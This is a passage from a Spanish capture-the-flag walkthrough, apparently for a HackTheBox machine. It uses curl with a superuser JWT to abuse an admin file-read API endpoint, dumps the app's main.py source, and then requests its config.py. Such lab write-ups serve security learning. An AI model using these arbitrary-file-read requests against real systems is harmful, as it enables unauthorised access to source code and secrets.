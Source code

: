 
Vamos a leer el archivo .py

```bash
❯ curl -X 'POST' \
  'http://10.10.11.161/api/v1/admin/file' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjc5MDcwMDQ5LCJpYXQiOjE2NzgzNzg4NDksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.xv1AsEd_3Q-Mz67kkvAT3XHy-x5XphoeqWpFqE0WbQU' \
  -H 'Content-Type: application/json' \
  -d '{
  "file": "/home/htb/uhc/app/main.py"
}';echo

{

"file":"import asyncio from fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends from fastapi_contrib.common.responses import UJSONResponse from fastapi import FastAPI, Depends, HTTPException, status from fastapi.security import HTTPBasic, HTTPBasicCredentials from fastapi.openapi.docs import get_swagger_ui_html from fastapi.openapi.utils import get_openapi from typing import Optional, Any from pathlib import Path from sqlalchemy.orm import Session from app.schemas.user import User from app.api.v1.api import api_router from app.core.config import settings from app import deps from app import crud app = FastAPI(title="UHC API Quals", openapi_url=None, docs_url=None, redoc_url=None) root_router = APIRouter(default_response_class=UJSONResponse) @app.get("/", status_code=200) def root(): """ Root GET """ return {"msg": "UHC API Version 1.0"} @app.get("/api", status_code=200) def list_versions(): """ Versions """ return {"endpoints":["v1"]} @app.get("/api/v1", status_code=200) def list_endpoints_v1(): """ Version 1 Endpoints """ return {"endpoints":["user", "admin"]} @app.get("/docs") async def get_documentation( current_user: User = Depends(deps.parse_token) ): return get_swagger_ui_html(openapi_url="/openapi.json", title="docs") @app.get("/openapi.json") async def openapi( current_user: User = Depends(deps.parse_token) ): return get_openapi(title = "FastAPI", version="0.1.0", routes=app.routes) app.include_router(api_router, prefix=settings.API_V1_STR) app.include_router(root_router) def start(): import uvicorn uvicorn.run(app, host="0.0.0.0", port=8001, log_level="debug") if __name__ == "__main__": # Use this for debugging purposes only import uvicorn uvicorn.run(app, host="0.0.0.0", port=8001, log_level="debug") "
}
```

Podemos ver que se hacen importaciones de librerias como "import api_router from app.core.config" Estas llibrerias no son las tipicas como pueden ser "sys,os" etc. Son de desarrollo propio y se pueden acceder a ellas. app.core.config significa que dentro de la carpeta app/core hay un archivo config.py vamos a leerlo.

```bash
❯ curl -X 'POST' \
  'http://10.10.11.161/api/v1/admin/file' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjc5MDcwMDQ5LCJpYXQiOjE2NzgzNzg4NDksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.xv1AsEd_3Q-Mz67kkvAT3XHy-x5XphoeqWpFqE0WbQU' \
  -H 'Content-Type: application/json' \
  -d '{
  "file": "/home/htb/uhc/app/core/config.py"
}';echo

```